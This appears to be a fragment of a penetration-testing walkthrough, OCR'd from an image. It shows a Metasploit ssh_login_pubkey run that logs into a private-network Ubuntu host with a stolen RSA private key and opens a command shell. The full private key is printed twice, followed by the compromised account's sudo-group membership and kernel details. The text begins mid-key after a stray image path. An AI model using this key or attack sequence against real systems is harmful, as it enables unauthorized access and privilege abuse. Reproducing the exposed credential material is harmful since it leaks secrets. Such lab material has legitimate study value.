   ```
yWEs1lWC+XdTdhYYh+4MjjVB5f9q0QixXKFUv2TKNHnk0GvQbzZHyefC/Xy+rw8I
FyceWW/GxTS+T7PpHS+qxwyHat24ph7Xz/cE/0UyrVu+NAzFXaHq60M2/RRh3uXE
1vqiZVlapczO/DxsnPwQrE2EOm0lzrQVmZbX5BYK1yiCd5eTgLhOb+ms2p/8pb2I
jrK5FzLnUZu0H0ZHtihOVkx4l8NZqB36jinaRs0wWN7It4/C5+NkyoMvuceIn1Wx
tstYD3ECgYEA7sOb0CdGxXw0IVrJF+3C8m1UG3CfQfzms+rJb9w3OJVl2BTlYdPr
JgXI/YoV9FQPvXmTWrRP9e6x0kuSVHO1ejMpyLHGmMcJDZhpVKMROOosIWfROxwk
bkPU2jdUXIrHgu8NnmnyytjUnJgeerQZLhCtjKmBKCZisS4WPBdun3MCgYEAxDh1
fjFJttWhgeg6pcvvmDUWO1W0lJ9ZjjQll1UmbPmKDGwwsjPZEkZfLkvI77st81AT
eW/p7tMKE3fCkXkn2KWMQ6ZGN5yflwvjJOMAVZz8ir8Cu1npa6f6HIrxpHSKethY
dG4ssCpQctfoRfN4wg6fOHBOpGd3BH1GdOwR4Y8CgYEAq3h7e//ZCZbrcVDbvn2Y
VbZCgvpcxW002d0yEU2bst1IKOjI23rwE3xwHfV/UtrT+wVG2AtKqZpkxlxTmKcI
m9wGlAVoVOwMCmF8s7XwdmlmjA8c6lCJsU6xnI3D3jokklnP9AauwRL7jgKJUSHq
O3TqzmwlP4phslEg0sMZRRUCgYEAwkS3prG7rqYBmjFG52FqnIJquWIYQFEoBE+C
rDqkqZ3B3Jy89aG5l4tOrvJfRWJHky7DqSZxMH+G6VFXtFmEZs04er3DpUmPA6fE
Qn/wk9KygdetJ7pUDL8pNFsn9M9hT1Ck+tkdq2ipb5ptn9v2wgJiBynB4qmBP1Oc
jyQua+cCgYEAl77hJQK97tdJ5TuOXSsdpW8IMvbiaWTgvZtKVJev31lWgJ+knpCf
AaZna5YokhaNvfGGbO5N8YoYShIpGdvWI+dIT8xYvPkJmYdnTz7/dmBUcwLtNVx/
7PI/l5XrFMRsnu/CYuBPuWB+RCTLjIr1D1RluNbIb7xr+kDHuzgInvA=
-----END RSA PRIVATE KEY-----
msf auxiliary(ssh_login_pubkey) > run

[*] 192.168.2.156:22 SSH - Testing Cleartext Keys
[*] SSH - Testing 1 keys from
[+] SSH - Success: 'ubuntu:-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAtwJrqowPyjWONHUCMqU/Fh3yRn42+X9hahtTv/6plYpb4WrA
NxDaYIrBGAO//u2SkGcIhnAdzYVmovWahKEwcxZ2XJo/nj4gjh1CbI1xVCFeE/oX
oWpIN+4q8JQ0Iq1dm+c+WPQIEzlVpMRaKeuMxdGPNMTYWxolSEIMPPYmyWXG6gz8
fYYZDo8+w8G78w7oUV6hSIwCDzw09A5yGyt51ZETeSZiZ24bHlBQSyk7yFq/eo58
xhlc79jpZrSdX8kx8HrCZKND7O6E4YSktfSHOvd81QUCSyoi5Y+9RXsLjUEba0+Y
0Az8mZPLdxbRu75eeD/mZTv5gALewXeb65IkPQIDAQABAoIBACvi5LbNR6wSE7v4
o0JJ5ksDe2n0MnK6XT34t6i/BSPbPhVcaCPMYtHr9Eox/ATCK/d8/cpfcIYsi2Rg
yWEs1lWC+XdTdhYYh+4MjjVB5f9q0QixXKFUv2TKNHnk0GvQbzZHyefC/Xy+rw8I
FyceWW/GxTS+T7PpHS+qxwyHat24ph7Xz/cE/0UyrVu+NAzFXaHq60M2/RRh3uXE
1vqiZVlapczO/DxsnPwQrE2EOm0lzrQVmZbX5BYK1yiCd5eTgLhOb+ms2p/8pb2I
jrK5FzLnUZu0H0ZHtihOVkx4l8NZqB36jinaRs0wWN7It4/C5+NkyoMvuceIn1Wx
tstYD3ECgYEA7sOb0CdGxXw0IVrJF+3C8m1UG3CfQfzms+rJb9w3OJVl2BTlYdPr
JgXI/YoV9FQPvXmTWrRP9e6x0kuSVHO1ejMpyLHGmMcJDZhpVKMROOosIWfROxwk
bkPU2jdUXIrHgu8NnmnyytjUnJgeerQZLhCtjKmBKCZisS4WPBdun3MCgYEAxDh1
fjFJttWhgeg6pcvvmDUWO1W0lJ9ZjjQll1UmbPmKDGwwsjPZEkZfLkvI77st81AT
eW/p7tMKE3fCkXkn2KWMQ6ZGN5yflwvjJOMAVZz8ir8Cu1npa6f6HIrxpHSKethY
dG4ssCpQctfoRfN4wg6fOHBOpGd3BH1GdOwR4Y8CgYEAq3h7e//ZCZbrcVDbvn2Y
VbZCgvpcxW002d0yEU2bst1IKOjI23rwE3xwHfV/UtrT+wVG2AtKqZpkxlxTmKcI
m9wGlAVoVOwMCmF8s7XwdmlmjA8c6lCJsU6xnI3D3jokklnP9AauwRL7jgKJUSHq
O3TqzmwlP4phslEg0sMZRRUCgYEAwkS3prG7rqYBmjFG52FqnIJquWIYQFEoBE+C
rDqkqZ3B3Jy89aG5l4tOrvJfRWJHky7DqSZxMH+G6VFXtFmEZs04er3DpUmPA6fE
Qn/wk9KygdetJ7pUDL8pNFsn9M9hT1Ck+tkdq2ipb5ptn9v2wgJiBynB4qmBP1Oc
jyQua+cCgYEAl77hJQK97tdJ5TuOXSsdpW8IMvbiaWTgvZtKVJev31lWgJ+knpCf
AaZna5YokhaNvfGGbO5N8YoYShIpGdvWI+dIT8xYvPkJmYdnTz7/dmBUcwLtNVx/
7PI/l5XrFMRsnu/CYuBPuWB+RCTLjIr1D1RluNbIb7xr+kDHuzgInvA=
-----END RSA PRIVATE KEY-----

' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare) Linux Ubuntu14 4.2.0-27-generic #32~14.04.1-Ubuntu SMP Fri Jan 22 15:32:26 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 1 opened (192.168.2.117:44179 -> 192.168.2.156:22) at 2017-02-22 22:08:11 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```